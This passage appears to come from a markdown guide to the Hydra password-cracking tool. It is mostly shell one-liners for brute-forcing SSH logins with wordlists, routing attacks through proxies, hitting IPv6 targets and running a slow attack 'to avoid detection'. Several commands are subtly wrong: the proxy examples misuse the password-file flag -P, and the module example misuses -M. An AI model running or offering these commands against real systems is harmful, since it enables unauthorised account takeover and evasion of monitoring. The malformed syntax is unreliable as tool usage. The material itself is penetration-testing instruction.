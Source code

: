 ## Proxy Support

### HTTP Proxy
```bash
# Use HTTP proxy
hydra -L users.txt -P passwords.txt -P http://127.0.0.1:8080 ssh://target.com

# Use SOCKS proxy
hydra -L users.txt -P passwords.txt -P socks5://127.0.0.1:1080 ssh://target.com

# Proxy with authentication
hydra -L users.txt -P passwords.txt -P http://user:pass@proxy.com:8080 ssh://target.com
```

## Advanced Features

### Custom Modules
```bash
# List available modules
hydra -U

# Use specific module
hydra -L users.txt -P passwords.txt -M ssh://target.com

# Create custom module (if needed)
# See hydra documentation for module development
```

### IPv6 Support
```bash
# Attack IPv6 target
hydra -L users.txt -P passwords.txt -6 ssh://[::1]:22

# Specify IPv6 address
hydra -L users.txt -P passwords.txt -6 ssh://2001:db8::1
```

## Practical Examples

### SSH Penetration Testing
```bash
# Quick SSH brute force
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt ssh://target.com

# Targeted SSH attack
hydra -l admin -P /usr/share/wordlists/passwords.txt ssh://target.com

# Slow SSH attack to avoid detection
hydra -L users.txt -P passwords.txt -t 1 -w 5 ssh://target.com
```
